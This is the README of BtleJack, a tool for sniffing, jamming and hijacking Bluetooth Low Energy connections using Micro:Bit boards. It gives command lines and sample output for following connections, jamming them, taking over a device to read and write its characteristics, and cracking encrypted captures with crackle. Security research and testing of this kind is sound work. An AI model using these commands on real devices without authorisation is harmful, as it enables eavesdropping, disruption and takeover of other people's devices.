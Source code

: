 BtleJack: a new Bluetooth Low Energy swiss-army knife
#####################################################

Btlejack provides everything you need to sniff, jam and hijack Bluetooth Low Energy devices. It relies on one or more `BBC Micro:Bit <http://microbit.org/>`_. devices running a dedicated firmware. You may also
want to use an `Adafruit's Bluefruit LE sniffer <https://www.adafruit.com/product/2269>`_ or a `nRF51822 Eval Kit <https://www.waveshare.com/wiki/BLE400>`_, as we added support for these devices.

**This tool only supports Bluetooth Low Energy 4.x.**

Requirements
============

You need a UNIX based system (for example a Raspberry Pi). If you use the BBC Micro:Bit, you will need one to three Micro:Bit devices (three devices recommended) and for each device one free USB port. The power consumption of a Micro:Bit is rather low, so you can use a single USB port and a passive hub for powering the three recommended units.

**If you connect 3 microbits at the same time on your computer, Btlejack will be able to sniff on every advertising channel and has far more chance to capture the connection request.**

How to install
==============

First, install the ``btlejack`` Python3 client software with Pip:

::

  $ sudo pip3 install btlejack


Then, connect your Micro:Bit device to your computer with a USB cable, mount the associated mass storage device (the mount point must contain **MICROBIT**), and issue the following command:

::

  $ btlejack -i

This will program every Micro:Bit device connected to your computer, and make
them ready to use with Btlejack. It will use the correct firmware version for the current client software, so it is highly recommended to perform this firmware installation procedure each time you update Btlejack.

If you are using a *Bluefruit LE sniffer* or a *nRF51822 Eval Kit*, then please use an external SWD programmer to flash your device with `this firmware <https://github.com/virtualabs/btlejack-firmware/raw/master/dist/btlejack-firmware-ble400.hex>`_.

Keep your devices connected and you're all set !

**NOTE** This only works with posix compatible systems.

How to use Btlejack
===================

Using Btlejack is quite easy. Btlejack can:

- use various devices
- sniff an existing BLE connection
- sniff new BLE connections
- jam an existing BLE connection
- hijack an existing BLE connection
- export captured packets to various PCAP formats


Specify devices to use
----------------------

Btlejack normally tries to autodetect and use connected compatible devices (Micro:Bit only for the moment), but since the firmware can be hacked or modified
to work with other nRF51822-based boards, it provides a specific options to allow compatibility with these devices.

The ``-d`` option lets you specify one or more devices with Btlejack. Note that this option will disable the automatic detection of devices, and you should
add as many devices as you may need:

::

  $ btlejack -d /dev/ttyACM0 -d /dev/ttyACM2 -s



Sniffing an existing connection
-------------------------------

First, find an existing connection to target with ``btlejack``:

::

  $ btlejack -s
  BtleJack version 1.1

  [i] Enumerating existing connections ...
  [ - 54 dBm] 0xcd91d517 | pkts: 1
  [ - 46 dBm] 0xcd91d517 | pkts: 2

The first value (in dBm) shows the power of the signal, the greater this value is the better the sniffed connection will be.

The second value (hex) is the associated *access address*, a 32-bit value identifying a link between two bluetooth low energy compatible devices.

The last value is the number of packets seen with this *access address*. The higher this value is, the more probable the corresponding *access address* is used.

Then, use the `-f` option to follow a specific connection:

::

  $ btlejack -f 0xdda4845e
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0xdda4845e ...
  ✓ CRCInit: 0x2a035e
  ✓ Channel Map = 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 15
  [i] Synchronized, packet capture in progress ...
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70


**If you are using more than 1 microbit, Btlejack will parallelize some of the sniffing operations in order to speed up the connection parametres recovery !**

Sniffing for new connections
----------------------------

The  ``-c`` option supported by ``btlejack`` allows you to specify the target BD address, or you may want to use ``any`` to capture any new connection created.

::

  $ btlejack -c any
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: version 1.1
   > Sniffer #1: version 1.1
  LL Data: 05 22 df b4 6f 95 c5 55 c0 0a f6 99 23 40 1d 7b 2f 0a 9a f4 93 01 12 00 27 00 00 00 d0 07 ff ff ff ff 1f 0b
  [i] Got CONNECT_REQ packet from 55:c5:95:6f:b4:df to 40:23:99:f6:0a:c0
   |-- Access Address: 0x0a2f7b1d
   |-- CRC Init value: 0x93f49a
   |-- Hop interval: 39
   |-- Hop increment: 11
   |-- Channel Map: 1fffffffff
   |-- Timeout: 20000 ms

  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 0b 06 0c 08 0f 00 09 41
  LL Data: 03 06 0c 07 1d 00 d3 07

or you may also want to specify the target BD address:

::

  $ btlejack -c 03:e1:f0:00:11:22


Jamming a connection
--------------------

Once a connection identified by its *access address*, you can provide jam it by using the ``-j`` option:

::

  $ btlejack -f 0x129f3244 -j̀


Hijacking a BLE connection
--------------------------

Btlejack is also able to hijack an existing connection, use the ``-t`` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

::

  $ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
  BtleJack version 1.1

  [i] Using cached parameters (created on 2018-08-11 01:48:24)
  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0x9c68fd30 ...
  ✓ CRCInit: 0x81f733
  ✓ Channel map is provided: 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 9
  [i] Synchronized, hijacking in progress ...
  [i] Connection successfully hijacked, it is all yours \o/
  btlejack>

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

*discover* command
^^^^^^^^^^^^^^^^^^

The ``discover`` command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

::

  btlejack> discover
  start: 0001 end: 0005
  start: 0014 end: 001a
  start: 0028 end: ffff
   Discovered services:
  Service UUID: 1801
   Characteristic UUID: 2a05
     | handle: 0002
     | properties: indicate  (20)
     \ value handle: 0003

  Service UUID: 1800
   Characteristic UUID: 2a04
     | handle: 0019
     | properties: read  (02)
     \ value handle: 001a

   Characteristic UUID: 2a00
     | handle: 0015
     | properties: read  (02)
     \ value handle: 0016

   Characteristic UUID: 2a01
     | handle: 0017
     | properties: read  (02)
     \ value handle: 0018

  Service UUID: 1824
   Characteristic UUID: 2abc
     | handle: 0029
     | properties: write indicate  (28)
     \ value handle: 002a

*read* command
^^^^^^^^^^^^^^

The ``read`` command accepts a single parameter, the value handle corresponding to the characteristic you want to read from:

::

  btlejack> read 0x16
  read>> 4c 47 20 77 65 62 4f 53 20 54 56

*write* command
^^^^^^^^^^^^^^^

The ``write`` command accepts three parameters:

::

  btlejack> write <value handle> <data format> <data>


Supported data formats:

- ``hex``: hex data (i.e. "414261")
- ``str``: text string, may be encapsulated in double quotes

*ll* command
^^^^^^^^^^^^

This last command allows you to send Bluetooth Low Energy Link-layer PDUs, in hex form, as specified in Volume 6, Part B, Chapter 2.4.


PCAP file export
----------------

One interesting feature of Btlejack is the possibility to export the captured data to a PCAP file.

Btlejack supports the following DLT formats:

* DLT_BLUETOOTH_LE_LL_WITH_PHDR (same)
* DLT_NORDIC_BLE (the one used by Nordic' sniffer)
* DLT_BLUETOOTH_LE_LL (supported on latest versions of Wireshark)

The output file may be specified using the `-o` option, while the output format may be specified with the `-x` option. Valid formats values are: `ll_phdr`, `nordic`, or `pcap` (default).

::

  $ btlejack -f 0xac56bc12 -x nordic -o capture.nordic.pcap


The ``ll_phdr`` export type is useful when sniffing an encrypted connection, as it is also supported by `crackle <https://github.com/mikeryan/crackle>`_. So if you want to sniff and break encrypted connections, this is the way to go.

You may also need to tell crackle to use a specific cracking strategy, by using the `-s` option:

::

  $ crackle -i some.pcap -s 1


Connection cache
----------------

Btlejack uses a *connection cache* to store some connection-related value in order to speed up
things a bit. This connection cache may cause some problems, especially if an access address has
been previously seen.

This cache can be flushed with the ``-z`` option:

::

  $ btlejack -z
